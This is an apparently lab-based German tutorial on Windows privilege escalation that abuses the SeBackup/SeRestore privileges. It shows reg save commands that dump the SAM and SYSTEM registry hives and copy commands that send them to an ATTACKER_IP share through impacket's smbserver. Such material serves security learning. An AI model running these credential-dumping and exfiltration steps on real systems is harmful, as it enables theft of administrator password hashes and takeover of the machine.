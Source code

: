 Eine vollständige Liste der verfügbaren Berechtigungen auf Windows-Systemen ist hier zu finden (https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). Vom Standpunkt eines Angreifers aus sind nur die Privilegien von Interesse, die eine Eskalation im System ermöglichen. Eine umfassende Liste der ausnutzbaren Privilegien kann auf dem Github-Projekt Priv2Admin gefunden werden. https://github.com/gtworek/Priv2Admin

### SeBackup / SeRestore
Die Privilegien SeBackup und SeRestore erlauben es den Benutzern, jede Datei im System zu lesen und zu schreiben, ohne Rücksicht auf bestehende DACL. Die Idee hinter diesem Privileg ist es, bestimmten Benutzern die Möglichkeit zu geben, Backups von einem System durchzuführen, ohne volle administrative Rechte zu benötigen.

Mit dieser Befugnis kann ein Angreifer auf triviale Weise seine Privilegien auf dem System ausweiten, indem er viele Techniken einsetzt. Die Methode in dem Beispiel untersuchte besteht darin, die SAM- und SYSTEM-Registry-Hives zu kopieren, um den Hash des lokalen Administrator-Passworts zu extrahieren.

Da der Hierfür benutzte user Bereits ein Admin ist können wir hergehen und eine Admin CMD öffnen damit wir dann im nächsten schritt schauen können wie genau die Berechtigungen der Nutzer sind. Das Geht dann via: 

```
whoami/priv
```

Dass sollte ungefähr dann so aussehen:
https://imgur.com/Cu0vLs8

Um die SAM- und SYSTEM-Hashes zu sichern, können wir die folgenden Befehle verwenden:

```
reg save hklm\system C:\Users\THMBackup\system.hive

reg save hklm\sam C:\Users\THMBackup\sam.hive
```

  
Dadurch werden einige Dateien mit dem Inhalt der Registrierungsdateien erstellt. Wir können diese Dateien nun mit SMB oder einer anderen verfügbaren Methode auf unseren Angreifer-Rechner kopieren. Für SMB können wir die Datei smbserver.py von impacket verwenden, um einen einfachen SMB-Server mit einer Netzwerkfreigabe im aktuellen Verzeichnis unserer AttackBox zu starten:

```
mkdir share 
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```
  
Dadurch wird eine Freigabe mit dem Namen public erstellt, die auf das Freigabeverzeichnis verweist und den Benutzernamen und das Passwort unserer aktuellen Windows-Sitzung erfordert. Danach können wir den Kopierbefehl in unserem Windows-Rechner verwenden, um beide Dateien auf unsere AttackBox zu übertragen:
```
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\ 
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```
